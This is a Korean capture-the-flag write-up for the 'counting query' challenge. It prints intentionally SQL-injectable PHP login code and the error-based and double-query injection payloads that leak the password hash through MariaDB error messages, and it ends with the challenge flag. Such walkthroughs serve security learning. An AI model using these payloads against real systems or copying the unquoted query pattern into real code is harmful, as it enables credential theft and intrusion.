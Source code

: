 ## counting query (풀이 봄)
<hr style="border-top: 1px solid;"><br>

```php
?php
 if (isset($_GET['view-source'])) {
     show_source(__FILE__);
     exit();
 }
 include("./inc.php"); // database connect, $FLAG.
 ini_set('display_errors',false);

 function err($str){ die("<script>alert(\"$str\");window.location.href='./';</script>"); }
 function uniq($data){ return md5($data.uniqid());}
 function make_id($id){ return mysql_query("insert into all_user_accounts values (null,'$id','".uniq($id)."','guest@nothing.null',2)");}
 function counting($id){ return mysql_query("insert into login_count values (null,'$id','".time()."')");}
 function pw_change($id) { return mysql_query("update all_user_accounts set ps='".uniq($id)."' where user_id='$id'"); }
 function count_init($id) { return mysql_query("delete from login_count where id='$id'"); }
 function t_table($id) { return mysql_query("create temporary table t_user as select * from all_user_accounts where user_id='$id'"); };

 if(empty($_POST['id']) || empty($_POST['pw']) || empty($_POST['type'])){
  err("Parameter Error :: missing");
 }

 $id=mysql_real_escape_string($_POST['id']);
 $ps=mysql_real_escape_string($_POST['pw']);
 $type=mysql_real_escape_string($_POST['type']);
 $ip=$_SERVER['REMOTE_ADDR'];

 sleep(2); // not Bruteforcing!!

 if($id!=$ip){
  err("SECURITY : u can access with allotted id only");
 }

 $row=mysql_fetch_array(mysql_query("select 1 from all_user_accounts where user_id='$id'"));
 if($row[0]!=1){
  if(false === make_id($id)){
   err("DB Error :: create user error");
  }
 }
 
 $row=mysql_fetch_array(mysql_query("select count(*) from login_count where id='$id'"));
 $log_count = (int)$row[0];
 if($log_count >= 4){
  pw_change($id);
  count_init($id);
  err("SECURITY : bruteforcing detected - password is changed");
 }
 
 t_table($id); // don`t access the other account

 if(preg_match("/all_user_accounts/i",$type)){
  err("SECURITY : don`t access the other account");
 }

 counting($id); // limiting number of query

 if(false === $result=mysql_query("select * from t_user where user_id='$id' and ps='$ps' and type=$type")){
  err("DB Error :: ".mysql_error());
 }

 $row=mysql_fetch_array($result);
 
 if(empty($row['user_id'])){
  err("Login Error :: not found your `user_id` or `password`");
 }

 echo "welcome <b>$id</b> !! (Login count = $log_count)";
 
 $row=mysql_fetch_array(mysql_query("select ps from t_user where user_id='$id' and ps='$ps'"));

 //patched 04.22.2015
 if (empty($ps)) err("DB Error :: data not found..");

 if($row['ps']==$ps){ echo "<h2>wow! FLAG is : ".$FLAG."</h2>"; }

?>
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution (풀이 봄)
<hr style="border-top: 1px solid;"><br>

```if(false === $result=mysql_query("select * from t_user where user_id='$id' and ps='$ps' and type=$type")) { err("DB Error :: ".mysql_error()); }``` 

이 부분을 이용하여 alert 메시지를 확인해가면서 풀 수 있을 듯 하다.

<br>

우선 개발자 도구에서 타입을 선택하는 부분이다.
: ```<select name='type'> <option value='1'>admin</option> <option value='2' selected>user</option> </select>```

여기서 admin 부분을 보면 value가 1로 설정되어 있다. 

이 값을 아래와 같이 변경해주면 버전을 확인할 수 있다.

<br>

1 union select extractvalue(1, concat(0x3a,version()))
: ```DB Error :: XPATH syntax error: ':5.5.64-MariaDB-1ubuntu0.14.04.1'```

<br>

우리는 비밀번호를 찾아야 한다. 그 비밀번호는 우리가 에러를 일으키면서 출력된 에러 안에 표시가 되어야 한다.

<br>

extractvalue로는 Constant XPATH 에러가 계속 떠서 xml 함수로는 불가능하다고 판단, ```select COUNT(*), CONCAT((SELECT version()),0x3a,FLOOR(RAND(0)*2)) as x FROM information_schema.tables GROUP BY x``` 이 구문을 이용해보려 했는데 이 구문은 제대로 이해를 하지 못해서 풀이를 찾아보았다..

<br>

Double Query Injection
: <a href="https://medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c" target="_blank">medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c</a>

<br>

```or row(1,1)>(select count(*), concat(ps,0x3a,floor(rand()*2)) as a from information_schema.tables group by a)```

-> ```DB Error :: Duplicate entry '98cb680f6259df442c7878192ab5d58a:0' for key 'group_key'```

<br>

row 함수의 의미
: <a href="https://ch4njun.tistory.com/88" target="_blank">ch4njun.tistory.com/88</a>
: <a href="https://ind2x.github.io/posts/sql_injection/#error-based-sql-injection" target="_blank">ind2x.github.io/posts/sql_injection/#error-based-sql-injection</a>

<br>

+ Flag : ```DH{7e4950ce11ea958764a20eadb3bf43c6b49b474f}```

<br><br>
<hr style="border: 2px solid;">
<br><br>

